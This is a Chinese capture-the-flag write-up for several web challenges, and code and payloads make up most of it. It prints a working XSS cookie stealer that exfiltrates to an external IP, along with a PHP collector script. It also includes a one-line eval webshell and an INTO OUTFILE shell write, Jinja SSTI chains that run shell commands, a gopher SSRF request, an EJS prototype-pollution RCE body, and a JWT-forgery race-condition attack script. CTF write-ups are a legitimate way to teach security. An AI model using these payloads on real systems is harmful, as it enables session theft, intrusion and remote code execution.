    print("=" * 50)

    result = decode_cp037(hex_string)

    if result:
        print(f"
解码后的文本: {result}")

        # 显示每个字符的详细信息
        print(f"
详细解码信息:")
        print("-" * 30)
        bytes_data = hex_to_bytes(hex_string)
        for i, byte in enumerate(bytes_data):
            try:
                char = bytes([byte]).decode('cp037')
                print(f"字节 0x{byte:02X} -> 字符: '{char}' (ASCII: {ord(char)})")
            except UnicodeDecodeError:
                print(f"字节 0x{byte:02X} -> 无法解码的字符")

    print("
" + "=" * 50)
```

```
解码后的文本: ZmxhZ3thNWZiZDc3Ny05NzRlLTQ4OWYtYmFkZS1mMzM3NWVjNzgwYzh9Cg==
```

结果base64解码即可

```
flag{a5fbd777-974e-489f-bade-f3375ec780c8}
```

### who's ssti

```
{{lipsum.__globals__.__builtins__.__import__('re').findall('\d+', 'abc123def456')}}
```

```
{{lipsum.__globals__.__builtins__.__import__('difflib').get_close_matches('apple', ['apply', 'ape', 'apples', 'peach'])}}
```

```
{{lipsum.__globals__.__builtins__.__import__('random').choice([1, 2, 3, 4, 5])}}
```

```
{{lipsum.__globals__.__builtins__.__import__('textwrap').dedent('    hello
    world')}}
```

```
{{lipsum.__globals__.__builtins__.__import__('statistics').mean([1, 2, 3, 4, 5])}}
```


成功调用5个函数即可获得flag


```
flag{7d680b9d-49e3-40c4-b7bb-b2fa6b9a9759}
```

# week4

### 武功秘籍

稻草人cms

访问`/dcr/login.htm`路由进入登录口，弱口令：admin/admin


添加新闻类，随便写个名字添加，然后回到首页。


点击添加新闻


传个php马，然后添加新闻


抓包改下Content-Type


然后找一下上传的马子名字


然后之后看phpinfo即可找到flag


```
flag{33111046-ef43-4af5-aba6-c83c3d464eb3}
```

### 小羊走迷宫

变量名字用这种方式绕过：`ma[ze.path`

payload:

```
http://8.147.132.32:20712/?ma[ze.path=TzoxMDoic3RhcnRQb2ludCI6MTp7czo5OiJkaXJlY3Rpb24iO2E6Mjp7aTowO086ODoiZW5kUG9pbnQiOjE6e3M6MTQ6IgBlbmRQb2ludABwYXRoIjtzOjUyOiJwaHA6Ly9maWx0ZXIvY29udmVydC5iYXNlNjQtZW5jb2RlL3Jlc291cmNlPWZsYWcucGhwIjt9aToxO3M6MzoiZm9vIjt9fQ==
```


然后结果再base64解码一下就行了


```
flag{14d1257a-02c7-4355-a0a5-ce9d5c089c8a}
```

### 小E的留言板

在vps上写个php文件，用来接受xss得到cookie

```
<?php
 $cookie = $_GET['cookie'];
 $result = fopen("cookie.txt", "a");
 fwrite($result,$cookie . "
");
 fclose($result);
?>
```

然后在web页面随便注册个账号登录进去

```
" autofofocuscus oonnfofocuscus="var i=new Image();i.src='http://82.157.235.117/1.php?cookie='+encodeURICompoonnent(document.cookie);this.oonnfofocuscus=null"
```

将payload输入留言框，然后更新、报告。过了一会即可看到获得到的cookie


### sqlupload

随便写个一句话木马

```
<?php @eval($_REQUEST['1']); ?>
```

然后抓包，上传的时候将文件名字改成一句话木马


然后利用getFileList.php中正则漏洞：只包含upload\_time或者id即可绕过


然后利用这个向网站根目录将刚刚的马写入文件

```
/getFileList.php?order=upload_time%20INTO%20OUTFILE%20%27/var/www/html/shell1.php%27
```

访问发现成功写入，并且能执行phpinfo


蚁剑直接连，然后执行根目录下的readFlag即可


​

### ssti在哪里

web服务(端口80/外部25036) → app.py(5000) → interal\_web.py(5001)

由于题目要post传参，这里用gopher打，对name进行模板注入

payload直接读取环境变量：


```
gopher://127.0.0.1:5000/_POST%20/%20HTTP/1.0%0d%0aHost:%20127.0.0.1%0d%0aConnection:%20close%0d%0aContent-Type:%20application/x-www-form-urlencoded%0d%0aContent-Length:%2048%0d%0a%0d%0aname%3D%7B%7Bcycler.__init__.__globals__.os.environ%7D%7D
```

# week5

### 小W和小K的故事（最终章）

在app.js中可以看到硬编码了随机数种子114514


根据random.js写个python脚本预测一下，获取admin密码

```
class Random:
    def __init__(self, seed):
        self.seed = seed % 998244353

    def next(self):
        self.seed = (self.seed * 48271) % 998244353
        return self.seed

    def getRandomInt(self, min_val, max_val):
        return min_val + (self.next() % (max_val - min_val))

    def getRandomString(self, length):
        charset = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789"
        result = ""
        for i in range(length):
            result += charset[self.getRandomInt(0, len(charset))]
        return result


def main():
    # 生成session secret（第一次调用）
    rng = Random(114514)
    session_secret = rng.getRandomString(16)
    print(f"Session Secret: {session_secret}")

    # 生成admin密码（第二次调用，状态已改变）
    admin_password = rng.getRandomString(16)
    print(f"admin密码: {admin_password}")


if __name__ == "__main__":
    main()

# 输出结果:
# Session Secret: JbjULcgJmg6EyKcQ
# Admin密码: XrfGpmeEFZmz8NDZ
```

得到admin密码：`XrfGpmeEFZmz8NDZ`

进入管理后台，开启抓包，随便添加个用户，js原型链污染（CVE-2019-10744）+ EJS 3.1.6 模板引擎的RCE


```
POST /addUser HTTP/2
Host: eci-2ze851x0t7t6px2pa8ob.cloudeci1.ichunqiu.com:3000
Cookie: Hm_lvt_2d0601bd28de7d49818249cf35d95943=1757503154; session=s%3A368rWRXOa7vZea6ArGnCRZf2ei9l_oKz.YntA7wJWrAQc%2BkQnV45IEbvgOjN48uKgLOX62YqHs5c
Content-Length: 214
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Sec-Ch-Ua: "Not.A/Brand";v="99", "Chromium";v="136"
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: */*
Origin: https://eci-2ze851x0t7t6px2pa8ob.cloudeci1.ichunqiu.com:3000
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://eci-2ze851x0t7t6px2pa8ob.cloudeci1.ichunqiu.com:3000/admin
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{
  "constructor": {
    "prototype": {
      "client": true,
      "escapeFunction": "1; return global.process.mainModule.constructor._load('child_process').execSync('cat /flag').toString(); //"
    }
  }
}
```

然后跟随这个302跳转，即访问任意EJS页面，触发模板渲染，执行注入的代码


```
flag{750ed55d-4b95-46ab-8bb0-7f6158ddd3e3}
```

### 眼熟的计算器

jadx反编译得到源码：

```
package org.example.newstar.controller;

import javax.script.ScriptEngineManager;
import org.springframework.beans.factory.xml.BeanDefinitionParserDelegate;
import org.springframework.beans.factory.xml.DefaultBeanDefinitionDocumentReader;
import org.springframework.cache.interceptor.CacheOperationExpressionEvaluator;
import org.springframework.stereotype.Controller;
import org.springframework.ui.Model;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.RequestParam;

@Controller
/* loaded from: app.jar:BOOT-INF/classes/org/example/newstar/controller/NewstarController.class */
public class NewstarController {
    private String[] BLACKLIST = {DefaultBeanDefinitionDocumentReader.IMPORT_ELEMENT, "java.lang.Runtime", "new"};

    private String calculate(String content) throws Exception {
        String[] strArr;
        for (String word : this.BLACKLIST) {
            if (content.contains(word)) {
                return "Blacklisted word detected: " + word;
            }
        }
        Object result = new ScriptEngineManager().getEngineByName("js").eval(content);
        return result.toString();
    }

    @GetMapping({"/"})
    public String home(Model model) throws Exception {
        return BeanDefinitionParserDelegate.INDEX_ATTRIBUTE;
    }

    @GetMapping({"/calc"})
    public String status(@RequestParam("content") String content, Model model) throws Exception {
        model.addAttribute(CacheOperationExpressionEvaluator.RESULT_VARIABLE, calculate(content));
        return BeanDefinitionParserDelegate.INDEX_ATTRIBUTE;
    }
}
```


使用type()动态引用类，绕过黑名单检测

由于直接读取会返回哈希码，因此这里用base64编码绕过：

```
1+1; Java.type("java.util.Base64").getEncoder().encodeToString(Java.type("java.nio.file.Files").readAllBytes(Java.type("java.nio.file.Paths").get("/flag")))
```


将结果base64解码即可


```
flag{6b5714b0-2a40-465b-8016-c9a6bcf50a16}
```

### 废弃的网站

通过访问admin页面获取服务器运行时间，计算出JWT签名密钥伪造管理员令牌。利用竞争条件漏洞，在多个线程中同时发送正常管理员请求和包含SSTI payload的恶意请求，当服务器在验证JWT后、渲染页面前的短暂时间窗口内，恶意payload通过竞争条件覆盖临时用户数据，触发SSTI执行系统命令

（不太稳定）

```
import requests
import jwt
import hashlib
import time
import threading
import re

target = "http://39.106.48.123:43714/"


def get_running_time():
    """获取服务器运行时间"""
    try:
        resp = requests.get(target + "admin", cookies={'session': 'invalid'})
        if "System has been running" in resp.text:
            match = re.search(r'System has been running (\d+) seconds', resp.text)
            if match:
                return int(match.group(1))
    except:
        pass
    return None


def get_fresh_admin_token():
    """获取管理员token"""
    running_time = get_running_time()
    if running_time is None:
        return None

    current_time = round(time.time())
    time_started = current_time - running_time - 2  # 已知正确偏移

    secret = hashlib.sha256(str(time_started).encode()).hexdigest()
    admin_payload = {"id": 1, "role": "admin", "name": "Administrator"}

    token = jwt.encode(admin_payload, secret, algorithm='HS256')
    if isinstance(token, bytes):
        token = token.decode('utf-8')
    return token


def precise_race_condition_attack():
    print("开始精确竞争条件攻击...")

    admin_token = get_fresh_admin_token()
    if not admin_token:
        print("无法获取管理员token")
        return []

    print(f"使用新鲜token: {admin_token[:30]}...")

    results = []
    request_count = [0]

    def victim_thread():
        """受害者线程：使用管理员token访问/admin"""
        for i in range(20):
            try:
                request_count[0] += 1
                resp = requests.get(target + "admin", cookies={'session': admin_token}, timeout=0.5)
                if "Welcome Back" in resp.text:
                    result = resp.text.replace("Welcome Back, ", "")
                    if result != "Administrator":
                        results.append(f"竞争成功! 请求#{request_count[0]}: {result}")
                        print(f"!!! 发现异常响应: {result}")
            except:
                pass

    def attacker_thread():
        """攻击者线程：快速修改tempuser"""
        running_time = get_running_time()
        if not running_time:
            return

        current_time = round(time.time())
        time_started = current_time - running_time - 2
        secret = hashlib.sha256(str(time_started).encode()).hexdigest()

        attack_payloads = [
            "{{7*7}}",
            "{{config}}",
            "{{lipsum.__globals__}}",
            "flag{test}",
            "{{''.__class__.__mro__[1].__subclasses__()}}",
        ]

        for payload in attack_payloads:
            attack_payload = {"id": 1, "role": "admin", "name": payload}
            attack_token = jwt.encode(attack_payload, secret, algorithm='HS256')
            if isinstance(attack_token, bytes):
                attack_token = attack_token.decode('utf-8')

            for i in range(10):
                try:
                    request_count[0] += 1
                    requests.get(target, cookies={'session': attack_token}, timeout=0.1)
                    requests.get(target + "admin", cookies={'session': attack_token}, timeout=0.1)
                except:
                    pass

    def timing_attack():
        """精确时间控制攻击"""
        for i in range(30):
            try:
                request_count[0] += 1
                time.sleep(0.1)
                guest_token = get_fresh_admin_token()
                if guest_token:
                    requests.get(target, cookies={'session': guest_token}, timeout=0.05)
            except:
                pass

    threads = []

    for i in range(5):
        t = threading.Thread(target=victim_thread)
        threads.append(t)
        t.start()

    for i in range(3):
        t = threading.Thread(target=attacker_thread)
        threads.append(t)
        t.start()

    for i in range(2):
        t = threading.Thread(target=timing_attack)
        threads.append(t)
        t.start()

    for t in threads:
        t.join(timeout=5)

    return results


def exploit_with_flag_payloads():
    """使用flag相关的payload进行攻击"""
    print("
使用flag相关payload攻击...")

    running_time = get_running_time()
    if not running_time:
        return

    current_time = round(time.time())
    time_started = current_time - running_time - 2
    secret = hashlib.sha256(str(time_started).encode()).hexdigest()

    flag_payloads = [
        "{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat /flag').read()}}",
        "{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat /flag.txt').read()}}",
        "{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat /flag*').read()}}",
        "{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('find / -name "*flag*" -type f 2>/dev/null | head -5 | xargs cat').read()}}",
        "{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('env | grep -i flag').read()}}",
        "{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls -la').read()}}",
        "{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat *.txt').read()}}",
        "{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ps aux | grep flag').read()}}",
    ]

    for payload in flag_payloads:
        print(f"尝试payload: {payload[:60]}...")

        attack_payload = {"id": 1, "role": "admin", "name": payload}
        attack_token = jwt.encode(attack_payload, secret, algorithm='HS256')
        if isinstance(attack_token, bytes):
            attack_token = attack_token.decode('utf-8')

        victim_payload = {"id": 1, "role": "admin", "name": "Administrator"}
        victim_token = jwt.encode(victim_payload, secret, algorithm='HS256')
        if isinstance(victim_token, bytes):
            victim_token = victim_token.decode('utf-8')

        def victim():
            for i in range(10):
                try:
                    resp = requests.get(target + "admin", cookies={'session': victim_token}, timeout=0.3)
                    if "Welcome Back" in resp.text:
                        result = resp.text.replace("Welcome Back, ", "")
                        if result != "Administrator" and len(result) > 10:
                            print(f"!!! 竞争成功: {result}")
                except:
                    pass

        def attacker():
            for i in range(10):
                try:
                    requests.get(target, cookies={'session': attack_token}, timeout=0.1)
                    requests.get(target + "admin", cookies={'session': attack_token}, timeout=0.1)
                except:
                    pass

        threads = []
        for i in range(3):
            t = threading.Thread(target=victim)
            threads.append(t)
            t.start()

        for i in range(2):
            t = threading.Thread(target=attacker)
            threads.append(t)
            t.start()

        for t in threads:
            t.join(timeout=2)


def check_simple_race():
    """简单的竞争条件测试"""
    print("
简单竞争条件测试...")

    admin_token = get_fresh_admin_token()
    guest_token = get_fresh_admin_token()

    if admin_token and guest_token:
        for i in range(10):
            try:
                t1 = threading.Thread(target=lambda: requests.get(target + "admin", cookies={'session': admin_token}))
                t2 = threading.Thread(target=lambda: requests.get(target, cookies={'session': guest_token}))

                t1.start()
                t2.start()

                t1.join(timeout=1)
                t2.join(timeout=1)
            except:
                pass


def main():
    """主函数"""
    print("开始JWT预测 + 竞争条件攻击...")

    running_time = get_running_time()
    if running_time:
        print(f"服务器运行时间: {running_time} 秒")

    results = precise_race_condition_attack()
    if results:
        print("攻击结果:")
        for result in results:
            print(f"  {result}")

    exploit_with_flag_payloads()

    check_simple_race()

    print("
攻击完成!")


if __name__ == "__main__":
    main()
```


```
flag{1e9541c7-04e3-4d12-9482-02a1f8417d11}
```

## 二进制博客

先随便注册一个号登录进去


进去随便发一篇博客然后再删除，发现会自动跳转到一个博客管理的页面，即/blog\_manager.php路由


发现有导入功能，要导入.dat文件，随便写个空文件改成.dat文件上传，发现会提示反序列化失败


叫ai写个生成.dat文件的脚本

```
<?php
class Blog {
    public $id;
    public $title;
    public $content;
    public $user_id;
    public $username;
    public $created_at;
    public $updated_at;
    public $template;
}

// 创建数据
$blog = new Blog();
$blog->id = 10;
$blog->title = "Test Blog";
$blog->content = "Hello World";
$blog->user_id = 1;
$blog->username = "admin";
$blog->created_at = "2024-01-15 10:30:00";
$blog->updated_at = "2024-01-15 10:30:00";
$blog->template = "default.tpl";

$backup_data = array(
    'timestamp' => 1705300000,
    'version' => '2.1',
    'blog' => $blog,
    'signature' => 'a1b2c3d4e5f67890abcdef1234567890abcdef1234567890abcdef1234567890'
);

// 序列化并写入文件
$serialized_data = serialize($backup_data);
file_put_contents('backup.dat', $serialized_data);

echo "backup.dat 文件已生成！
";
echo "文件大小: " . filesize('backup.dat') . " 字节
";
?>
```

然后传进去，抓个包，这个template这里发现可以进行文件读取


尝试读一下/flag /proc/1/environ之类的，发现不好使

读取flag.php时会报错500


尝试用过滤器封装一下


成功读取到内容


然后结果再base64解密一下即可


```
flag{84e47891-ec4f-4796-a657-f1b26ae6c6c1}
```
